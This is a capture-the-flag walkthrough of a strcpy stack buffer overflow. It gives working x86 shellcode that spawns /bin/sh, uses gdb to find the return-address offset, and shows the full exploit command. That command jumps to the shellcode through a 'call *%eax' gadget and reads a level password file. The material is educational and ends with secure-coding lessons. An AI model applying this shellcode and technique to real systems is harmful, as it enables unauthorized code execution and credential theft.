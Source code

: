 ## Level 4: avoid unsafe library functions

The source code on this level is surprisingly simple:
```
void fun(char *str) {
  char buf[1024];
  strcpy(buf, str);
}

int main(int argc, char **argv) {
  // ... 
  fun(argv[1]);
  // ... 
}
```

The problem is obvious:
`strcpy` is well-known to be unsafe,
it doesn't check if the destination array has enough space to store the source array.
With a sufficiently long command line argument we can overwrite the memory area beyond `buf`.

If you recall from the previous challenge,
the return address is stored on the stack after local variables.
The return address is the address where execution will jump to after executing the current function.
By overwriting `buf`,
we can overwrite the return address,
and thus make the program jump to anywhere we want.

In the previous challenge we made the program jump to the insecure function `run`.
Unfortunately,
in this program there is no such insecure function,
and so no easy target to jump to.
On the other hand,
what if we could bring some insecure code inside and jump there?
For example by injecting it into `buf` through the input string,
and then overwriting the return address to jump to our evil code.

What kind of code should we try to inject?
We could use what is commonly known as *shellcode*:
a small piece of code that typically executes `/bin/sh`,
written in machine language.

Writing the shellcode itself is beyond the scope of this article.
It is thoroughly explained in the Smash The Stack article[5].
Essentially it is a modified version of this simple C program:
```
#include <stdio.h>

void main() {
   char *name[2];

   name[0] = "/bin/sh";
   name[1] = NULL;
   execve(name[0], name, NULL);
}
```
Writing shellcode is not easy.
After compiling such program,
there is more work to do,
for example you may have to rewrite some of the assembly instructions in a way to eliminate NULL bytes,
as `strcpy` won't copy anything after the first `NULL`.

For our purposes,
we will take the finished shellcode from the Smash The Stack article[5]:
```
char shellcode[] =
        "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
        "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
        "\x80\xe8\xdc\xff\xff\xff/bin/sh";
```
For convenience, let's save it in a shell variable:
```
EGG=$(printf '\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh')
```
Next,
we need to find the right position in the input spring where we can overwrite the return address.
The content of the stack will look something like this when we are inside `fun`:
```
0x0000      content of the local variable buf (1024 bytes)
0x0400+?    the return address
```
That is, the return address is somewhere soon after the end of the buffer.
We can find the right position using `gdb`.
When we overwrite the return address with something invalid,
the program crashes with segmentation fault.
When `gdb` reaches such code,
it prints out the address it was trying to jump to.
We can use this to guess the right location.

Let's run the program in `gdb`,
with a sufficiently long input string that will write beyond the end of `buf`,
over the return address:
```
level03@box:/levels/level04$ gdb ./level04
(gdb) run $(python -c 'print "A" * 1100')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1100')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```
We have successfully overwritten the return address with "A"s,
the program cannot jump to such address so it crashes.
Let's try a shorter string,
something that will help us pinpoint the correct position:
```
(gdb) run $(python -c 'print "A" * 1024 + "abcdefghijklmnopqrstuvwxyz"')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1024 + "abcdefghijklmnopqrstuvwxyz"')

Program received signal SIGSEGV, Segmentation fault.
0x706f6e6d in ?? ()
```
That looks like somewhere in the middle of our `abcd...xyz` sequence.
To find the exact position,
let's check the ASCII codes of these letters:
```
$ echo abcdefghijklmnopqrstuvwxyz | hexdump -C
00000000  61 62 63 64 65 66 67 68  69 6a 6b 6c 6d 6e 6f 70  |abcdefghijklmnop|
00000010  71 72 73 74 75 76 77 78  79 7a 0a                 |qrstuvwxyz.|
0000001b
```
As `m=6d n=6e o=6f p=70`,
the return address is in the place of the letters `mnop`.
Since there are 12 letters before "m",
we can calculate that we need an input string of length 1024 + 12 + 4,
where the last 4 bytes will be the address we want to jump to.
Let's verify this final number with one last test in `gdb`:
```
(gdb) run $(python -c 'print "A" * 1036 + "mmmm"')
Starting program: /levels/levels04/level04 $(python -c 'print "A" * 1036 + "mmmm"')

Program received signal SIGSEGV, Segmentation fault.
0x6d6d6d6d in ?? ()
```
Wonderful, what next?
Our string should start with the shellcode,
followed by some padding until 1036 bytes,
and finally the address to jump to.
Let's check the size of our shellcode:
```
$ printf $EGG | wc -c
45
```
Thus, we will need 1036 - 45 = 991 padding characters.
But what about the address?
We want to jump to the address of `buf`,
but how can we know that?
Unfortunately, we cannot.
In the past,
the stack used to be at the same address in all programs,
which was easy to exploit,
as you could have a good idea where to jump.
As of today,
thanks to address space layout randomization (ASLR) used in modern operating systems,
the start address of the stack is randomized,
making it extremely difficult to guess the right location.

Luckily,
there are other interesting details that we can use:

- On 32-bit x86 processors,
  a function that returns a pointer value places its result in register `%eax`.

- `strcpy` is the last call in the function `fun`,
  so its returned value remains in `%eax` when the function returns.

- There are `call *%eax` instructions inside the program,
  which are suitable jump targets,
  as they execute the code at the address stored in register `%eax`.

That is,
we can put our shellcode at the start of `buf`,
then when `strcpy` returns,
the address of `buf` will be saved in `%eax`,
and so if we overwrite the return address with any of the `call *%eax` instructions,
then our shellcode at the start of `buf` will get executed.

Find the addresses of `call *%eax` instructions using `objdump`:
```
level03@box:/levels/level04$ objdump -d level04 | grep call.*eax
 8048488:   ff 14 85 1c 9f 04 08    call   *0x8049f1c(,%eax,4)
 80484cf:   ff d0                   call   *%eax
 80485fb:   ff d0                   call   *%eax
```
That's it, we can use either `0x080484cf` or `0x080485fb` as the address to jump to:
```
level03@box:/levels/level04$ ./level04 $EGG$(python -c 'print "A" * 991')$(printf '\xcf\x84\x04\x08')
/levels/level04 $ cat /home/level04/.password 
paegeiqu
```

## Lessons to learn

- Don't use unsafe library functions like `strcpy`.

- Always make sure that arrays cannot be written beyond their boundaries.

- Always validate user input, and set reasonable limits to input length.

